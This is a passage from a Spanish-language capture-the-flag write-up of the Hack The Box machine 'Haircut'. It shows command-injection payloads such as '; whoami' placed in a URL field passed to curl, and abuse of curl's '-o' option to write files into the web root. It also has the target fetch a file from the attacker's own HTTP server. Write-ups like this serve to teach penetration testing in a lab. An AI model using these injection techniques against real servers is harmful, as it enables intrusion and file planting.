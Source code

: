 Observamos los siguientes datos que nos pueden parecer un poco

```bash
% Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0 100 223 100 223 0 0 34440 0 --:--:-- --:--:-- --:--:-- 37166
```

Se trata del uso de la función `curl`, por lo que es posible que el sitio realice un `curl` hacia un recurso interno de la máquina víctima `http://localhost/test.html`. Así que vamos a probar si tenemos ejecución de comando a nivel de sistema de múltiples formas:

- http://localhost/test.html; whoami
- http://localhost/test.html && whoami
- http://localhost/loquesea.html \|\| whoami

Al probarlos, el sitio nos arroja a siguiente leyenda: ***is not a good thing to put in a URL***. Así que vamos a tratar de utilizar parámetros de la función `curl`, en especifico `-o` para que nos cree un archivo en la ruta `uploads` y considerando que el servidor web se encuentra alojado en la ruta default `/var/www/html`.

```bash
http://localhost/test.html -o /var/www/html/uploads/test.html
```

![](/assets/images/htb-haircut/haircut-curl.png)

Se nos creó el archivo `test.html` en el recurso `uploads`; así que tenemos creación de archivo dentro de dicho directorio. Vamos a probar si tenemos posibilidad de visualizar recursos externos, así que nos creamos un archivo de prueba `test.txt`:

```txt
Esto es una prueba
```

Y vamos a tratar de visualizarlo desde la página web, por lo que debemos compartir un recurso HTTP con python:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [18/Oct/2021 20:35:30] "GET /test.txt HTTP/1.1" 200 -
```

```bash
http://10.10.14.16/test.txt
```

![](/assets/images/htb-haircut/haircut-curl1.png)
